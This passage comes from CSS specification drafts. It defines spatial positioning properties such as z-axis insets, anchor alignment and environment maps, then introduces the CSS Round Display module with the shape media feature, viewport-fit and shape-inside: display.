- When only one inset in a given axis is `auto`, the object is positioned as for the double-`auto` case, but shifted away from the origin by the specified amount, *away* from the specified side. For example, `left: 5cm` moves the object rightwards, away from the left edge.
- When neither inset in a given axis are `auto`, the object is sized and aligned within an **inset-modified containing volume** derived from the containing volume analogously to the inset-modified containing block in `position: absolute` layout. See [CSS Positioned Layout 3 § 3.5 Absolute (and Fixed) Positioning](#css-position-3:abspos-insets).

In all cases, percentage sizes (including sizing properties, inset properties, margins, and padding) that are defined to resolve against the containing block are resolved against the containing volume, see `portal-stage`.

Unlike regular absolute positioning, the `normal` value for self-alignment (the initial value) behaves as `center`, causing the box to use fit-content sizing for the automatic size, and centering the object when constrained on both sides by the inset-modified containing volume.

> **Issue:** What should happen if there’s no containing portal?

 

Three absolutely spatially positioned images fill the portal window and are placed at different depths using `inset-back`:

- The sky has an `inset-back` of 0.
- The hills have an `inset-back` of 2cm.
- The grass has an `inset-back` of 4cm.

The autofit behavior from `portal-transform: auto` places them so that the furthest forward element sits at the glass, and scales them to fit the portal.

#### 3.3.  Z-axis Insets: the `inset-front` and `inset-back` properties {#css-spatial-1:front-back}

| Field | Value |
| --- | --- |
| Name: | **inset-back**, **inset-front** |
| [Value:](#css-values-4:value-defs) | <`top`> |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | positioned boxes contained by a spatial container |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | for relative spatial positioning, relative to the distance from the containing block to the front limit plane; for absolute spatial positioning, relative to the z-axis size of the containing volume. |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

These `inset` sub-properties control the z-axis in spatial positioning.

Values have the following meanings:

****auto****

: If both insets in this axis are `auto`, then the box is positioned at its default z-axis position.

  Otherwise, this value defers positioning to the opposite inset, see below.

****`<length-percentage>`****

: The box’s position is inset by the specified amount from the front (for `inset-front`) or back (for `inset-back`).

When relative positioning, if `inset-back` is `auto`, then it computes to the negative of the computed value of `inset-front`; otherwise `inset-front` computes to the negative of the computed value of `inset-back`.

In case of overconstraint, `inset-front` is the weaker inset. Boxes positioned at the same z-axis position are sorted primarily by `z-index` and secondarily by document order for the purposes of painting and hit-testing.

 

As in the 2D case, positive insets move the named face inward, toward the center of the box, and negative insets move it outward, away from the box. The top row shows a volume embedded in the page (a portal). The bottom row shows a volume on the page surface.

##### 3.3.1.  Inset Aliases: the `inset-top`, `inset-right`, `inset-bottom`, and `inset-left` properties {#css-spatial-1:inset-aliasing}

| Field | Value |
| --- | --- |
| Name: | **inset-top**, **inset-right**, **inset-bottom**, **inset-left** |
| [Value:](#css-values-4:value-defs) | <`top`> |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

As a convenience to authors, this module introduces `inset-` prefixed legacy name aliases for the `top`, `right`, `bottom`, and `left` inset properties for consistency with the existing `inset-block-start`, `inset-inline-start`, `inset-block-end`, `inset-inline-end` properties and the newly introduced `inset-front` and `inset-back` properties. See [CSS Positioned Layout 3 § 3 Positioning Coordinates](#css-position-3:coords) and [CSS Cascading 4 § 3.1 Property Aliasing](#css-cascade-5:aliasing).

##### 3.3.2.  Inset Shorthand: the `/ <inset-back> <inset-front>?` extension to `inset` {#css-spatial-1:inset-shorthand}

| Field | Value |
| --- | --- |
| Name: | `inset` |
| [New values:](#css-values-4:value-defs) | <`top`>{1, 4} / <`inset-back`> <`inset-front`>? |

This module extends the `inset` shorthand property to include `inset-back` and `inset-front` as longhand properties, and introduces the ability to set these by specifying their values after a slash (`/`). Omitted values for `inset-front` or `inset-back` are set to `auto`.

#### 3.4.  Defining the Origin {#css-spatial-1:object-origin}

For 3-dimensional objects with an inherent origin (zero) coordinate, the **object origin** defaults to that coordinate. Otherwise, the object origin defaults to the object’s center (consistent with the current initial value of `transform-origin`).

> **Note:** 3D models are typically not centered on their 0,0,0 coordinate. Instead, the origin is frequently chosen to be a useful reference point in the model. For example, its origin might be chosen such that it looks correct when placed directly on top of other objects; or if it is part of an assembly, it might be chosen such that the parts assemble correctly when their origins coincide.

The existing `offset-anchor` and `transform-origin` properties can change the object origin. Specifically, the effective object origin for CSS positioning and alignment (see below) is the origin defined by `offset-anchor`, which defaults to the origin defined by `transform-origin`—​which itself gains a new initial value of **auto** (matching the syntax of `offset-anchor`) to represent the default behavior specified above.

##### 3.4.1.  Extensions to `offset-anchor` and `transform-origin`: the `<3d-position>` type {#css-spatial-1:origin-3d}

In addition to extending `transform-origin` with a new automatic initial value, the `offset-anchor` and `transform-origin` properties are extended to add a third dimension, replacing `<position>` with a new `<3d-position>` type, defined as follows:

```css
<3d-position> = <position> [ / [ front | center | back | <length-percentage>
                               | [ front | back ] <length-percentage> ]?
```

If the third dimension value is omitted, it defaults to the same z-axis coordinate as the initial value of the property.

> **Note:** The `<position>` type itself is not extended, as many other uses of it (like `background-position`) remain 2D.

#### 3.5.  Anchor-based Positioning {#css-spatial-1:spatial-anchor-positioning}

Absolute spatial positioning can also be used together with [CSS Anchor Positioning](#css-anchor-position-2). This module extends `position-area` and the `anchor()` functions to reference the z-axis and to reference the anchor’s origin in all three axes.

> **Note:** To handle origin-matching between two elements, we:
>
> - Re-use `offset-anchor` to define the origin of an HTML element.
> - Add an `anchor-origin`' keyword to the self-alignment properties.
> - Add a `origin` keyword to `position-area`
> - Add a `origin` keyword to `anchor()`
>
> Alternatives considered include:
>
> - Whether `offset-position` be able to take `anchor()` functions and whether `offset-path: none` just be a point at the `offset-position` But this is built on top of transforms, not positioning, so that may cause problems
> - Using position-anchor-box rather than `position-area`

##### 3.5.1.  Extensions to `position-area`: 3-dimensional areas {#css-spatial-1:position-area-3d}

| Field | Value |
| --- | --- |
| Name: | `position-area` |
| [New values:](#css-values-4:value-defs) | [ front \| center \| back \| span-front \| span-back \| span-all ]? |

This module extends the `<position-area>` syntax to append the following to all 2-keyword values:

```css
[/ [ front | center | back | span-front | span-back | span-all ]]?
```

This creates a 3-axis syntax that describes a 27-sector 3-dimensional grid, essentially extruding the existing 9-sector 2-dimensional grid by adding areas corresponding to the front, center, and back of the anchor box. The z-axis positioning value is specified after a slash (`/`) following the 2D positioning values.

If only one keyword is specified, and it is a valid z-axis keyword, then it is repeated for all three axes. Otherwise, the z-axis value defaults to `center`.

##### 3.5.2.  Extensions to `position-area`: the `origin` area {#css-spatial-1:position-area-origin}

| Field | Value |
| --- | --- |
| Name: | `position-area` |
| [New values:](#css-values-4:value-defs) | origin |

This module also extends the `<position-area>` syntax to allow the **origin** keyword everywhere that `center` is currently allowed. This value represents a (zero-sized) track that coincides with the anchor’s origin, and its [area-specific default alignment](#css-anchor-position-1:position-area-alignment) is `anchor-origin`.

##### 3.5.3.  Extensions to `anchor()` and `anchor-size()` {#css-spatial-1:inset-anchor-3d}

This module extends the `<anchor()>` syntax to add **front** and **back** to `<anchor-side>`. Together with the existing `start`/`end` keywords, this allows the `inset-front` and `inset-back` inset properties to resolve against the corresponding sides of the anchor box.

Similarly, for sizing purposes, the `<anchor-size()>` syntax gains a **depth** keyword to represent the z-axis size of the anchor box. (Note the thickness of a CSS box, unless otherwise defined, is zero.)

It also adds an **origin** keyword to `<anchor-side>`, which resolves against the object origin of the anchor box.

##### 3.5.4.  Extensions to Box Alignment: the `z-align-self` and `z-align-items` properties {#css-spatial-1:z-alignment}

| Field | Value |
| --- | --- |
| Name: | **z-align-self** |
| [Value:](#css-values-4:value-defs) | auto \| `<overflow-position>`? [ normal \| front \| center \| back ] |
| [Initial:](#css-cascade-6:initial-values) | normal |
| [Applies to:](#css-cascade-5:applies-to) | spatially positioned boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

| Field | Value |
| --- | --- |
| Name: | **z-align-items** |
| [Value:](#css-values-4:value-defs) | `<overflow-position>`? [ normal \| front \| center \| back ] |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | [all elements](#css-pseudo-4:generated-content) |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

These properties are analogous to `align-self` and `align-items`, except they operate in the z-axis.

They are sub-properties of the `place-self` and `place-items` shorthand properties, respectively, which are themselves extended as follows:

| Field | Value |
| --- | --- |
| Name: | **place-self** |
| [Value:](#css-values-4:value-defs) | <`align-self`> <`justify-self`>? [ / <`z-align-self`> ]? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

| Field | Value |
| --- | --- |
| Name: | **place-items** |
| [Value:](#css-values-4:value-defs) | <`align-items`> <`justify-items`>? [ / <`z-align-items`> ]? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This module extends the `place-self` and `place-items` shorthand properties to also set <`z-align-self`> and <`z-align-items`> (respectively). If only one value is specified, then the shorthand sets all three axes to the same value. If only the z-axis value is omitted, then it is set to its initial value.

##### 3.5.5.  Extensions to Anchor Alignment: the `anchor-origin` value {#css-spatial-1:origin-anchoring}

| Field | Value |
| --- | --- |
| Name: | `justify-self`, `align-self`, `z-align-self`, `justify-items`, `align-items`, `z-align-items` |
| [New values:](#css-values-4:value-defs) | anchor-origin |

This module also introduces the new **anchor-origin** value, which centers the origin of the alignment subject against the origin of its default anchor box. When `anchor-origin` is specified, the inset properties behave differently in the affected axis: instead of adjusting the inset-modified containing block, they shift the origin of the alignment subject—​exactly as if it were a zero-sized containing block and the effective origin were the resulting inset-modified containing block.

> **Example:** For example, if the box’s horizontal origin is at 3cm, and we apply `right: 1cm` (leaving `left` as `auto`) then the resulting origin used for alignment is the point at 2cm. If we then *also*apply `left: 0.5cm`, then the result is overconstrained, and we ignore the weaker inset (the `right` inset in `direction: ltr`), resulting in an origin point at 3.5cm instead. If we instead apply `left: -3cm`, then we end up with an origin in the range [0,2cm], the center of which is 1cm, which gets matched with the center of the origin of the anchor box.

Like `anchor-center`, this value falls back to `center` when the box is not absolutely positioned or does not have a default anchor box.

##### 3.5.6.  Anchor-based Coordinates: the `position-context` property {#css-spatial-1:spatial-anchor-coordinates}

| Field | Value |
| --- | --- |
| Name: | **position-context** |
| [Value:](#css-values-4:value-defs) | container \| anchor |
| [Initial:](#css-cascade-6:initial-values) | container |
| [Applies to:](#css-cascade-5:applies-to) | absolutely positioned boxes |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property controls whether the box is oriented in the coordinate system of its containing block or if it is transformed together with its default anchor box.

Values have the following meanings:

****container****

: The used anchor box of the default anchor box is its axis-aligned bounding box in the coordinate system of the positioned box’s containing block/containing volume, and the position-area grid is likewise oriented in the coordinate system of its containing block/containing volume.

****anchor****

: The positioned box is transformed together with its default anchor box. The anchor box is used directly in the default anchor box’s own coordinate system, however that has been transformed, and the position-area grid is likewise re-oriented. The positioned box moves, rotates, and scales together with the default anchor box.

  > **Issue:** What should be the effective containing block used to calculate the position-area grid? Is it just transformed along with the anchor box (simple but maybe not very useful), or is it independently intersected somehow?


This illustration shows how `position-context` can attach one element to another. Both teapots rock back and forth. On the left, the lid has `position-context: container`. It stays attached to the correct spot as the teapot rotates, but it does not rotate with the teapot. On the right, the lid has `position-context: anchor`. It rotates with the teapot, so it appears to stay in place relative to the teapot.

### 4.  Spatial Transforms {#css-spatial-1:spatial-transforms}

Transforms applied to spatially positioned objects—​whether direct children of the spatial container or not—​inherently participate in the 3D rendering context of the spatial context into which they are positioned. `transform-style: preserve-3d` can be used to extend this 3D rendering context further to nested elements that are not themselves spatially positioned.

Because it uses the actual perpsective of the user, the 3D rendering context of a spatial container ignores the `perspective` and `perspective-origin` properties.

> **Issue:** We could also replace the `perspective()` function with the identity transform; or we can let it do whatever weird thing it ends up doing once it’s converted to a matrix anyway.

> **Note:** Transforms that do not use `preserve-3d` are flattened as usual.


Cards A, B, and C are each offset in depth using an inset property and rotated within the same 3D rendering context using `transform`, creating a fan effect.

### 5.  Interactions with Spatial Content {#css-spatial-1:interactions-with-spatial-content}

Elements which are contained in a portal continue to be part of the accessibility tree and to be interactive with all ways on the web content is.

For the purposes of pointer interactions, it is up to the user agent to identify the user’s target. However, to limit the amount of information shared about the user’s location, other than firing events on the correct target, the UA must not transmit precise coordinates for the interaction.

> **Note:** The restriction on coordinates is to reduce the page’s ability to reconstruct the ray used for interactions.

### 6.  Environment Maps {#css-spatial-1:environment-maps}

An **environment map** describes the lighting surrounding an object in a spatial context.


A model with an orange and blue environment map has its apparent lighting changed. The environment map is only visible as reflections on the surface of the model.

#### 6.1.  Defining Environment Maps: the `@environment-map` rule {#css-spatial-1:environment-map-definition}

Environment maps are named and defined using the **@environment-map** at-rule, which contains a list of environment map descriptor declarations. Its syntax is as follows:

```css
<@environment-map> = @environment-map {
  <declaration-list>
}
```

It accepts the `name`, `format`, and `src` descriptors; all other declarations are ignored. As with `@font-face` rules, when a given descriptor is declared multiple times within an `@environment-map` rule the last one wins, and if multiple `@environment-map` rules are declared with the same name then then last one wins.

An `@environment-map` rule without a name is invalid; and although it appears in the [CSSOM], it is effectively ignored.

##### 6.1.1.  Naming an Environment Map: the `name` descriptor {#css-spatial-1:environment-map-names}

| Field | Value |
| --- | --- |
| Name: | **name** |
| For: | `@environment-map` |
| Value: | `<string>` |
| Initial: | N/A |

The `name` descriptor declares the **name** of an environment map, allowing it to be referenced by the `environment` property.

##### 6.1.2.  Environment Map Formats: the `format` descriptor {#css-spatial-1:environment-map-formats}

| Field | Value |
| --- | --- |
| Name: | **format** |
| For: | `@environment-map` |
| Value: | equirectangular \| cube |
| Initial: | equirectangular |

The `format` descriptor declares the **format** of an environment map, which defines how the source image is mapped into three dimensions.

Values have the following meanings:

****equirectangular****

: The rectangular image is mapped onto the interior of a sphere (similar to a Mercator projection), with the top of the image coinciding with the y-most point on the sphere, the bottom of the image coinciding with the y-least point on the sphere, and the center of the image at the z-least point on the sphere (directly in front of the user).

  If more than one source image is provided, the first one is used and all others are ignored.

****cube****

: The six images provided in the `src` descriptor are mapped onto the interior of an axis-aligned cube, see [§ 6.1.2.1 Mapping Images Onto a Cube](#css-spatial-1:cube-mapping).

> **Issue:** Make sure we’re happy with which side of these images faces forward.

###### 6.1.2.1.  Mapping Images Onto a Cube {#css-spatial-1:cube-mapping}

The six source images for a `cube` mapping are assigned in the following order:

1. Top (y-most)
2. Ahead (z-least, i.e. in front of the the user, facing backward)
3. Right (x-most)
4. Behind (z-most, i.e. in back of the user, facing forward)
5. Left (x-least)
6. Bottom (y-least)

For the top and bottom sides, the top of the source image is attached to the ahead edge. For the right, left, ahead, and behind images, the top of the source image is attached to the top.

Omitted values are handled as follows:

1. If only 5 images, the left is considered omitted and is mirrored from the right.
2. If only 4 images, the behind is also considered omitted and is mirrored from the ahead.
3. If only 3 images, the middle image is stretched to wrap around all four vertical sides, centered straight ahead.
4. If only 2 images, the second is ignored; see 1 image.
5. If only 1 image, it is divided into 4 equal columns and 3 equal rows, with the region in [2,2] used ahead and the others folded onto the cube (ignoring the regions that don’t fit).

```
  TT
  TT  
LLAARRBB
LLAARRBB
  BB
  BB
```

Diagram of the single-image cube fold

##### 6.1.3.  Environment Map Images: the `src` descriptor {#css-spatial-1:environment-map-src}

| Field | Value |
| --- | --- |
| Name: | **src** |
| For: | `@environment-map` |
| Value: | `<image>`{1,6} |
| Initial: | N/A |

The `src` descriptor declares the **sources** of an environment map, which are images mapped on to the geometry of the environment map in accordance with the specified format.

#### 6.2.  Applying Environment Maps {#css-spatial-1:environment-map-references}

Environment maps are applied to a portal’s back spatial context using the `environment` sub-properties, which form a coordinating list property group with `environment-map` as the coordinating list base property.

> **Note:** These properties all inherit, so you can give the entire spatial context consistent lighting by applying them to the spatial container.

> **Issue:** What about the front spatial context?

##### 6.2.1.  Referencing an Environment Map: the `environment-map` property {#css-spatial-1:environment-map-property}

| Field | Value |
| --- | --- |
| Name: | **environment-map** |
| [Value:](#css-values-4:value-defs) | auto \| none \| `<string>`# |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | elements participating in a back spatial context |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property applies the specified environment map to light the object.

Values have the following meanings:

****none****

: The environment map is opaque black in all directions.

****auto****

: The environment map used is the user agent’s default environment map.

****`<string>`****

: The environment map is defined by the `@environment-map` rule matching the specified name (if any; otherwise it is opaque black).

When one or more environment maps are specified, each environment map adds its own contribution: each map’s color value is first multiplied by its corresponding `environment-intensity` and the results are summed.

> **Note:** These calculations should be performed in a linear color space such as `srgb-linear` or `display-p3-linear` in order to be physically correct. A gamma-corrected color space will produce inaccurate results.

##### 6.2.2.  Brightening and Dimming the Environment: the `environment-intensity` property {#css-spatial-1:environment-map-intensity}

| Field | Value |
| --- | --- |
| Name: | **environment-intensity** |
| [Value:](#css-values-4:value-defs) | `<number [0,∞]>`# |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | elements participating in a back spatial context |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property specifies the intensity factor used when calculating the total lighting provided by the environment maps (see [§ 6.2.1 Referencing an Environment Map: the environment-map property](#css-spatial-1:environment-map-property)).

##### 6.2.3.  Rotating the Environment: the `environment-rotate` property {#css-spatial-1:environment-map-rotate}

| Field | Value |
| --- | --- |
| Name: | **environment-rotate** |
| [Value:](#css-values-4:value-defs) | `<angle>`# |
| [Initial:](#css-cascade-6:initial-values) | 0deg |
| [Applies to:](#css-cascade-5:applies-to) | elements participating in a back spatial context |
| [Inherited:](#css-cascade-5:inherited-property) | yes |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

This property rotates the environment map specified by `environment-map` around the y-axis by the specified amount.

##### 6.2.4.  Declaring the Environment: the `environment` shorthand {#css-spatial-1:environment-shorthand}

| Field | Value |
| --- | --- |
| Name: | **environment** |
| [Value:](#css-values-4:value-defs) | [ <`environment-map`> \|\| <`environment-intensity`> \|\| <`environment-rotate`> ]# |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property specifies `environment-map`, `environment-intensity`, and `environment-rotate` in a single declaration.

### Appendix A: Default UA Stylesheet {#css-spatial-1:ua-stylesheet}

This appendix provides CSS rules for implementing the behaviors of proposed spatial HTML elements.

```
model, spatialfigure {
  spatial: portal;
  front-limit: 0 !important;
}
```

---

## CSS Round Display Module Level 1 {#css-round-display-1}

- **Shortname:** `css-round-display-1`
- **Editor's Draft:** [https://drafts.csswg.org/css-round-display/](https://drafts.csswg.org/css-round-display/)
- **Published TR:** [https://www.w3.org/TR/css-round-display-1/](https://www.w3.org/TR/css-round-display-1/)
- **W3C Status:** ED (exploring)
- **Last Edited:** 2025-12-26

### 1. Introduction {#css-round-display-1:introduction}

Conventionally, web pages have been shown through a rectangular screen such as PC, tablet, and smart phone. The window content area in a web browser is a rectangle. Each HTML element follows the W3C box model and thus is also a rectangle.   Nowadays, devices come in varied shapes of the displays. It needs to consider the shape of the display when implementing web pages on devices. However, current web standards lack some features to support the devices as follows:

1. Lack of the capability to detect the shape of a display
2. Lack of layout mechanisms suitable for the shape of a display

In order to facilitate the use of the web especially on a round display, there could be some features to support it.

The `shape` media feature is added to Media Queries. Current user agents are not capable of detecting the shape of a display so that authors cannot apply various layouts for a round display. To resolve the issue, `shape` informs the web page of the property regarding the shape of the display.    To apply the shape of a display to content area, we extend the `shape-inside` property of CSS Shapes. The position of the element which is overflowed from the display is adjusted inside the display when using this property even if the authors don’t know the exact shape of the display.    We also add the `border-boundary` property to CSS Backgrounds and Borders. The borders of the element can be drawn along the edge of the display even if the element is overflowed.

This module provides features such as:

- Detecting the rounded display
- Aligning contents in the display’s shape
- Drawing borders along the display’s edge

#### 1.1. Value Definitions {#css-round-display-1:values}

This specification follows the [CSS property definition conventions](#css2:property-defs) from [CSS21] using the [value definition syntax](#css-values-4:value-defs) from [CSS-VALUES-3]. Value types not defined in this specification are defined in CSS Values & Units [CSS-VALUES-3]. Combination with other CSS modules may expand the definitions of these value types.

In addition to the property-specific values listed in their definitions, all properties defined in this specification also accept the CSS-wide keywords as their property value. For readability they have not been repeated explicitly.

### 2. Terminology {#css-round-display-1:terminology}

This specification follows the CSS property definition conventions from [CSS21].   The detailed description of Media Queries is defined in [MEDIAQUERIES-4]  The detailed description of CSS Shapes is defined in [CSS-SHAPES-2]  The detailed description of Backgrounds and Borders is defined in [CSS3BG]  The detailed description of Positioned Layout is defined in [CSS3-POSITIONING]

### 3. Detecting the shape of the display {#css-round-display-1:extending-media-queries}

Media Queries [MEDIAQUERIES-4] define mechanisms to support media-dependent style sheets, tailored for different environments. We propose to extend Media Queries by adding the `shape` media feature to support various types of displays. This will allow web authors to apply different styles to a web page on the rounded display.

#### 3.1. The `shape` media feature {#css-round-display-1:shape-media-feature}

| Field | Value |
| --- | --- |
| Name: | **shape** |
| For: | `@media` |
| Value: | rect \| round |
| Type: | discrete |

Describes the general shape of the targeted display area of the output device. It accepts the following values:

****rect****

: The shape is an axis aligned rectangle or square, or a similar shape such as rounded rectangle for which the traditional designs are appropriate.

****round****

: The shape is rounded or a similar shape to the circle such as an oval, an ellipse for which distinctively rounded designs are appropriate.

> **Example:** The following examples show what `shape` media feature can do when the web page is on the various shapes of displays. The sample web page is a simple clock application written in HTML and seen through the rectangular display and the rounded display.
>
> In the first example, the clock application doesn’t implemented with `shape` media feature, so it can’t deal with different types of displays. It only uses 'rectangle.css' which is designed for the rectangular display no matter what the type of the display is. On the round display, some parts of the clock application would be clipped.
>
> ```html
> <!DOCTYPE html>
> <html>
> <head>
>     <link rel="stylesheet" href="rectangle.css" />
> </head>
> <body>
>     <div id="clockLayer">
>         <div id="clockLayer">
>             <div id="date">2015/02/28 (SAT)</div>
>             <div id="time">10:11</div>
>             <div id="weather"></div>
>         </div>
>     </div>
> </body>
> </html>
> ```
>
> 
>
> (A) Rectangle Display
>
> 
>
> (B) Round Display
>
> Clock Application without the `shape` media feature
>
> On the other hand, in the second example, the clock application uses `shape` media feature. The following media queries are added to the code of the clock application from the first example.
>
> ```html
> <!-- index.html -->
> <head>
>     <link media="screen and (shape: rect)" rel="stylesheet" href="rectangle.css" />
>     <link media="screen and (shape: round)" rel="stylesheet" href="round.css" />
> </head>
> ```
>
> If the clock application is loaded in a round display, 'round.css' which is the design for the round display will be applied by the Media Queries mechanism.
>
> 
>
> (A) Rectangle Display (when 'shape: rect' returns `true`)
>
> 
>
> (B) Round Display (when 'shape: round' returns `true`)
>
> Clock Application with the `shape` media feature

> **Note:** So far, the only standard APIs of Operating System which exposes information about the display’s shape is [`isScreenRound()` API](https://developer.android.com/reference/android/content/res/Configuration.html?hl=es#isScreenRound%28%29) in Android. [`isScreenRound()` API](https://developer.android.com/reference/android/content/res/Configuration.html?hl=es#isScreenRound%28%29) returns a boolean that says round or not.  Referred the semantics of this API, when isScreenRound() returns `true`, `shape: round` should evaluate to `true` and `shape: rect` should evaluate to `false` when isScreenRound() returns `false`.  `shape` is dealing with 2 shapes, but it can be extended if there are the needs about configuring other shapes from the developers.

> **Note:** There are cases when the UA may know the shape even in the absence of OS APIs. For example, when rendering to PDF, the shape is known to be a rectangle, so 'shape: rect' evaluates to `true` while `shape: round` to `false`

### 4. Extending the viewport `<meta>` element {#css-round-display-1:extending-viewport-meta}

#### 4.1. The viewport-fit property {#css-round-display-1:viewport-fit-property}

The **`viewport-fit`** property is recognized in the [CSS Viewport 1 § 3 Viewport <meta> element](#css-viewport-1:viewport-meta). viewport-fit can set the size of the layout viewport.

On rounded screen, the part of the page that’s currently shown on-screen is round but the viewport is rectangular. Because of this, depending on the size of the viewport, some part of the page may be clipped.


Clipped area

viewport-fit can control the clipped area by setting the size of the layout viewport.

Values have the following meanings:

****auto****

: This value doesn’t affect the initial layout viewport, and the whole web page is viewable. What the UA paints outside of the viewport is undefined. It may be the background color of the canvas, or anything else that the UA deems appropriate.

****contain****

: The initial layout viewport and the visual viewport are set to the largest rectangle which is inscribed in the display of the device. What the UA paints outside of the viewport is undefined. It may be the background color of the canvas, or anything else that the UA deems appropriate.

****cover****

: The initial layout viewport and the visual viewport are set to the circumscribed rectangle of the physical screen of the device.

When setting the size of the bounding box for the viewport on the non-rectangular display, we have to consider the factors like below:

- Clipped area which is caused because the area of the viewport bounding box is larger than the area of the display
- Gap between the bounding box for the viewport and the area of the display

The author can decide which factor is more critical than another. If it have to be guaranteed that any part of the web page isn’t hidden, avoiding clipping is more important than having a gap between the bounding box of the viewport and the border of the screen. If the author doesn’t want web pages to be small for the readability, then it would be better to set viewport-fit as cover and to implement pages with considering the clipped parts.

> **Example:** This example shows the size of the bounding box for the viewport specified with viewport-fit on the rounded display.
>
> When the viewport-fit is specified with contain, the initial viewport is applied to the largest inscribed rectangle of the display.
>
> ```html
> <meta name="viewport" content="viewport-fit=contain">
> ```
>
> 
>
> With '`viewport-fit: contain`'
>
> When cover is given to the viewport-fit, the initial viewport is applied to the circumscribed rectangle of the display.
>
> ```html
> <meta name="viewport" content="viewport-fit=cover">
> <style>
>     @media (shape: round){
>         /* styles for the round design */
>     }
>     @media (shape: rect){
>         /* styles for the rectangular design */
>     }
> </style>
> ```
>
> 
>
> With '`viewport-fit: cover`'

### 5. Aligning content along the display border {#css-round-display-1:aligning-content}

#### 5.1. The `shape-inside` property {#css-round-display-1:shape-inside-property}

CSS Shapes [CSS-SHAPES-2] define the `shape-inside` property that aligns contents along the edge of a possibly non-rectangular wrapping area. Web authors may use this feature to fit contents inside a round display. However, it can be challenging to specify the wrapping area to be identical to the shape of a display. To address such cases, `shape-inside` is extended with a new value named '`display`', such an element having this value will have its content (or contained elements) aligned along the display border automatically.

| Field | Value |
| --- | --- |
| Name: | **shape-inside** |
| [Value:](#css-values-4:value-defs) | auto \| outside-shape \| [ `<basic-shape>` \|\| shape-box ] \| `<image>` \| `display` |
| [Initial:](#css-cascade-6:initial-values) | auto |
| [Applies to:](#css-cascade-5:applies-to) | block-level elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | computed lengths for `<basic-shape>`, the absolute URI for `<uri>`, otherwise as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | as defined for `<basic-shape>`, otherwise discrete |

The example below shows how the `shape-inside` property works when it is set to '`display`'. Without using Media Queries, contents can be aligned within the display edge automatically.

> **Example:** ```html
> <style>
>     #container {
>         shape-inside: display;
>         // the same as circle(50% at 50%, 50%) in a regular round display
>     }
>     #green-box { float: left; }
>     #blue-box { float: right; }
> </style>
> <div id="container">
>     <p>
>         Some inline content
>         
>         with a float left and float right, in a
>         
>         simple box with a circle shape-inside.
>     </p>
> </div>
> ```
>
> 
>
> (A) Without '`shape-inside`'
>
> 
>
> (B) With '`shape-inside: display`'
>
> Align the content along the display border

This property is specially useful for complex shapes (e.g. curved, stelliform, polygonal), that wouldn’t be covered by `<basic-shape>` (i.e. circle() or ellipse()), allowing web authors to conveniently align contents with the display edge.

